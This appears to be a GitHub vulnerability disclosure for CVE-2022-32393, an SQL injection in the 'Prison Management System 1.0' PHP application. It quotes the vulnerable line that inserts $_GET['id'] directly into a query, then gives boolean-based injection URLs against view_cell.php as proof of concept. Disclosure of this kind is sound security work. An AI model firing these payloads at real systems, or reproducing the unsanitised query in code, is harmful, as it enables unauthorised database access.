 # CVE-2022-32393
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/cells/view_cell.php:4`
```php
$qry = $conn->query("SELECT c.*, p.name as `prison` from `cell_list` c inner join prison_list p on c.prison_id = p.id where c.id = '{$_GET['id']}' and c.delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/cells/view_cell.php?id=1'-(if(database()='pms_db',0,1))%23
```
- True : 
`http://localhost/pms/admin/cells/view_cell.php?id=1'-(if(database()='pms_db',0,1))%23`
![True](./img/cve-2022-32393_true.png)
- False : 
`http://localhost/pms/admin/cells/view_cell.php?id=1'-(if(database()='wrong',0,1))%23`
![False](./img/cve-2022-32393_false.png)
